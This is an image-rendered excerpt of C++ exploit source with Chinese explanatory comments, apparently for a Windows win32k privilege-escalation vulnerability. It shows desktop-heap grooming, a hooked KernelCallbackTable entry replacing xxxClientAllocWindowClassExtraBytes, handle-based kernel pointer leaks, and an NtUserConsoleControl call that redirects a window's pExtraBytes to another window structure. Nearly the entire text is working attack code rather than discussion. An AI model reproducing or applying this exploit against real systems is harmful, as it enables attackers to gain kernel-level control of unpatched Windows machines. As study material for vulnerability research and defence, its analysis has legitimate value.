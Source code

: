 ```
        }
    }
    dwpWnd0_to_pWnd1_kernel_heap_offset = 0;        // 重新设置该变量值为 0，进入下次内存布局尝试
}
if (dwpWnd0_to_pWnd1_kernel_heap_offset == 0) {        // 5 次尝试都失败了，退出程序
    std::cout << "Memory layout fail. quit" << std::endl;
    system("pause");
    return 0;
}
// 创建窗口 2，期间调用 hook 函数时，会将 pExtraBytes 改为 offset 间接寻址模式，并赋值为 tagWNDk0 相对于桌面堆基址的偏移
HWND hWnd2 = CreateWindowEx(NULL, L"Class2", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, NULL, hInstance, NULL);
PVOID pWnd2 = fHMValidateHandle(hWnd2, 1);    // 泄露 tagWNDk2 在用户空间的映射指针

KernelCallbackTable 的 123 项之前被替换成自定义的 hook 函数：
NTSTATUS WINAPI MyxxxClientAllocWindowClassExtraBytes(unsigned int* pSize)
{
    if (*pSize == g_dwMyWndExtra) {    // 只有参数为 0x1234 时，才进行操作。即只有 286 行创建 Class2 的窗口时才会进到这里
        ULONG_PTR ululValue = 0;
        HWND hWnd2 = NULL;

        // 搜索释放掉的后 48 个窗口对应的 tagWNDk，寻找新窗口的 tagWNDk 复用了哪个地址（这里应该是 i < 50，不过无伤大雅）
        for (int i = 2; i < 48; i++) {
            ULONG_PTR cbWndExtra = *(ULONG_PTR*)(g_pWnd[i] + g_cbWndExtra_offset);    // 取来每个 cbWndExtra
            if (cbWndExtra == g_dwMyWndExtra) {            // 找到新窗口的 tagWNDk
                hWnd2 = (HWND)*(ULONG_PTR*)(g_pWnd[i]); // &tagWNDk + 0 存放窗口句柄
                break;
            }
        }
        if (hWnd2 == NULL) {
            // 到这里说明新窗口 tagWNDk 没有复用之前的空间，则输出错误信息，这里再加个结束程序会好些
            std::cout << "Search free 48 kernel mapping desktop heap (cbwndextra == g_dwMyWndExtra) points to hWnd fail." << std::endl;
        }
        else {
            std::cout << "Search kernel mapping desktop heap points to hWnd: " << std::hex << hWnd2 << std::endl;
        }
        // 对新窗口（窗口 2）调用 ConsoleControl，使其 pExtraBytes 处于 offset 间接寻址模式
        ULONG_PTR ConsoleCtrlInfo[2] = { 0 };
        ConsoleCtrlInfo[0] = (ULONG_PTR)hWnd2;    // 第一个 8 字节放窗口句柄
        ConsoleCtrlInfo[1] = ululValue;            // 0
        NTSTATUS ret = g_fNtUserConsoleControl(6, (ULONG_PTR)&ConsoleCtrlInfo, sizeof(ConsoleCtrlInfo));

        ULONG_PTR Result[3] = { 0 };                // 返回信息长度为 0x18
        Result[0] = g_dwpWndKernel_heap_offset0;    // 第一个 8 字节会被用于赋值 pExtraBytes
        return g_fFNtCallbackReturn(&Result, sizeof(Result), 0);    // tagWNDk2.pExtraBytes 语义上指向 tagWNDk0
    }
    return g_fxxxClientAllocWindowClassExtraBytes(pSize);    // 238 行创建 50 个 Class1 的窗口时，都直接调用原函数
}
```
